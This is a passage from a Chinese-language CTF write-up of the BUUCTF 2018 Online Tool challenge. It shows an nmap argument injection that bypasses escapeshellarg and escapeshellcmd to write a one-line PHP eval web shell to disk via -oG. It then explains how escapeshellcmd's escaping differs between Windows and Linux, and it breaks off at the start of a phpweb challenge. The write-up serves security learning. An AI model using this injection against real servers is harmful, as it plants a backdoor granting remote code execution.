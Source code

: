 ```
根据解析规则
# 等价于  \<\?php eval($_POST["mayi"])\;\?\> -oG 1.php
# 写入后  <?php @eval($_POST["mayi"]);?> -oG mayi.php
```

连接到命令就是

```php
nmap -T5 -sT -Pn --host-timeout 2 -F  \ \<?php eval($_POST["a"]);?>\ -oG 1.php
```

参考

https://mayi077.gitee.io/2020/07/30/BUUCTF-2018-Online-Tool/

在windows下\是用^脱字符代表，不同操作系统下escapeshellcmd有不同的转义行为

在 Windows 环境下：

```
phpCopy code$cmd = 'dir "C:\Program Files"';
$escapedCmd = escapeshellcmd($cmd);
echo $escapedCmd;
```

输出结果：

```
bashCopy code
dir ^"C:\Program Files^"
```

在 Linux 或 macOS 环境下：

```
phpCopy code$cmd = 'ls /usr/local/bin';
$escapedCmd = escapeshellcmd($cmd);
echo $escapedCmd;
```

输出结果：

```
bashCopy code
ls /usr/local/bin
```

可以看到，在 Windows 环境下，`escapeshellcmd` 函数将双引号 `"` 转义为脱字符 `^`，而在 Linux 或 macOS 环境下，双引号不会被转义。这是因为不同的操作系统对于命令行参数的转义规则有所差异。

## 11.[网鼎杯 2020 朱雀组]phpweb

点进连接

![image-20230613191737353](https://s1.ax1x.com/2023/06/13/pCms0Zq.png)

发现几秒会刷新一次，前面是报错信息后面是时间

抓包
